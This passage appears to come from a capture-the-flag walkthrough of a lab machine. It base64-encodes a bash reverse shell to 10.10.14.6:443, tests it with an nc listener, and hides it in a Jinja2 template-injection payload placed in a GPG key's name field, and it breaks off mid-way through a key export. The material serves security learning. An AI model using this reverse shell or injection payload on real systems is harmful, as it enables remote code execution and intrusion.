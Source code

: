 I’ll encode the reverse shell in base64 (the first result would probably work, but I like to add spaces to get rid of characters like `+` and `=` and it doesn’t change the command):

```

oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMQo=
oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK

```

I can test this on my own system by starting `nc -lvnp 443` in one window, and then running:

```

echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash

```

It connects with a shell, which shows it works. I’ll add that to the SSTI payload:

```

{{ namespace.__init__.__globals__.os.popen('echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash').read() }}

```

Now I repeat the steps from above:

```

oxdf@hacky$ gpg --gen-key 
...[snip]...
Real name: {{ namespace.__init__.__globals__.os.popen('echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash').read() }}
Email address: rce-rev@ssa.htb
You selected this USER-ID:
    "{{ namespace.__init__.__globals__.os.popen('echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash').read() }} <rce-rev@ssa.htb>"
...[snip]...
oxdf@hacky$ gpg --clearsign -o- --local-user rce-rev@ssa.htb test.msg
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA512

this is a test message for the SSA
-----BEGIN PGP SIGNATURE-----

iQHEBAEBCgAuFiEEaPTvcECSM3P05qiDKfMo+uSKXZIFAmVTuGYQHHJjZS1yZXZA
c3NhLmh0YgAKCRAp8yj65IpdknPQC/0QpEh+5M5DMC+DRPyLu0HE+VfVZeQ45pOH
S5l2KW1+Vmj8ptEveo6RnWF4I82RACrX6Rd/grY9E8abaY6WFGunbWMXlFPyAGc7
IGxzd02uvABwUSxiZemJnJEI1kmVh7cqhaKkYiDMyG6Xy3WRl6sgoFm7HJOq/SKg
SB8/eL0B74BvdKaMrprka/q3VJQphBQwWJDwuDJfyKuGIR7BBqLgm6cgtasCXFo1
qZRYEKS9h8d9kzqUR6NrJFSO3yY/78LF3UaHt+3KRlDKEiGUhFJQDIR064J961nV
3Nsp1YTIW8KYpnfcIIbM+VOFo/eDiPCyBKM67p8zGIGotgLB9wpCvKiD0JIHVMmW
S3abZLXMmAtmrsW9ZGo5L1/FD92T1r0vYxlH+L6KRnQYzSYy+tskBPWjvfHZW6yV
PtvWjEpFVio3SP5647p6+AbrboXfxZvcqMoePzWaVlNFst0hQDClXaDYaWeDxWv4
EDwVLMWm2GplPfawE+Bg0I4HvSgj7U4=
=dDIr
-----END PGP SIGNATURE-----
oxdf@hacky$ gpg --export -a rce-rev@ssa.htb
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQGNBGVTuBkBDADF3/fo3OL+jyM1HYyInEguIKCXv9lseHpIHzzjU/+Q2womH8zq
xwatpT3j2f5N8TGhtS3KsG9pwNxS6+Oj4YS5IzSMOg164fXJLy0nAh0OcEpr3/ei
```